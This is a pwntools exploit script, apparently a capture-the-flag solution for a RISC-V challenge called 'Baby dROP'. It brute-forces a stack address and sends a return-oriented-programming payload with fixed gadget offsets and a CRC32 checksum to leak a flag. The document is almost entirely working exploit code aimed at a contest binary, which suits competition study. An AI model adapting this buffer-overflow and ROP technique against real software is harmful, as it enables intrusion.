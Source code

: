 ```python


def start():
    if args.REMOTE:
        io = remote("drop.quals2023-kah5Aiv9.satellitesabove.me", 5300)
        io.sendline(
            "ticket{REDACTED}"
        )
    else:
        if args.GDB:
            os.system("tmux splitw -h gdb-multiarch -ex init-gef -x .gdbrun")
        io = process(
            ["qemu-riscv32", "-g", "1234", "drop-baby"],
            env={"FLAG": "flag{REDACTED}", "TIMEOUT": "999999999"},
        )

    return io


APPLICATION_NAME = "Baby dROP"
A1_MSG_LEN = 40
A2_MSG_LEN = 10
B1_MSG_LEN = 20
B2_MSG_LEN = 300
CC_MSG_LEN = 25
ZY_MSG_LEN = 0
SILENT_ERRORS = True


for i in range(0, 0x1000, 6):
    with start() as io:
        # synchronize
        io.send(b"\xde\xad\xbe\xef")

        # b2 msg
        io.send(b"\xb2")

        payload = fit(
            {
                # stack address of the flag
                112: [0x40800FE0 - i],

                # stack address of magic gadget
                116: [0x167D2],

                # puts address
                148: [0x1673C],
            }
        )
        payload = payload.ljust(B2_MSG_LEN - 4, b"X")
        payload += p32(zlib.crc32(payload))

        io.send(payload)

        recvd = io.recvall(timeout=2)

        if b"flag{" in recvd:
            log.success(recvd.decode())
            exit(0)
```
